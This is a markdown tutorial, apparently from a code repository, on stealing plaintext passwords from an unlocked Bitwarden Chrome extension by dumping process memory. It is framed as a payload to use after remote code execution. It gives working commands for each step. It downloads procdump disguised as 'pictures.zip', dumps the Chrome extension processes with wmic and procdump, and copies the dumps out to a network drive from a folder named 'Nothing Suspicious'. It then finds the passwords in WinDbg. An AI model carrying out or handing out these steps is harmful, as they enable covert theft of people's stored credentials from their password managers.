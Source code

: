# Retrieving and Analyzing Memory to View Bitwarden Passwords

## About This Tutorial
This tutorial will teach you how to get plaintext passwords from an unlocked Bitwarden Web Vault Chrome browser extension using memory analysis. The idea here is that this can be used as a payload for a RCE to get the  Bitwarden passwords of a computer in use. 

### What this is **NOT**:
 - This does NOT teach you how to retreive or recover a master password for a bitwarden vault
 - This is NOT an exploit for Bitwarden, Chrome, or the Kernel

### Prerequisites to this Tutorial:

 - Windbg is installed on the Host computer, how to install this software can be found [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/).
 - You have access to an elevated command prompt on the target computer, or can otherwise run commands with elevated priveleges
 - The target computer has an internet connection 

## Step 1: Get a Debugger to Copy Chrome Memory
For this tutorial I'm going to use procdump, it's quite compact and doesn't require an installer, so it is perfect for this scenario. On the target computer, run the command:

    curl https://download.sysinternals.com/files/Procdump.zip -o pictures.zip

Here we just downloaded procdump as a file called "pictures.zip", an unsuspecting user might not immediately recognize this as a new file.

Next we will want to extract the .zip, we can use tar for this:

    tar -xf pictures.zip

## Step 2: Create a Memory Dump of Chrome Extensions
We are going to use wmic to get the process IDs of the running chrome extension processes, then use procdump to dump the memory to some files. We can do this in one command:

    for /f %i IN ('wmic.exe process where "CommandLine Like '%--extension-process%' and name Like 'chrome%'" get ProcessID') do (procdump.exe -accepteula -ma %i)

The output will be some .dmp files that you should copy to your Host computer. You can use xcopy, robocopy, or whatever command you'd like to copy the file to a network location. I'm going to give an example where we ran procdump in an empty folder called "Nothing Suspicious" in the ProgramData directory:

    xcopy "C:\ProgramData\Nothing Suspicious" [Network Drive Path] /s /e


## Step 3: Analyze Memory Dump to Retrieve Plaintext Passwords

On the Host computer, open up Windbg and drag and drop the memory dump into the window. 

In the command line of windbg, enter the following command:

    s-a 0`00000000 L?5000000000000 password".

This searches for the ascii text that is correlated with the  from the first memory address, and the search will include all of the memory addresses in the dump, unless the file size exceeds ~5GB (but in that case you have a whole other issue).

Copy down one of the memory addresses outputted from the previous command. Then go to View > Memory to open up the memory viewer. In the address input box, paste the address you just copied. From here you can see your vault in plaintext.

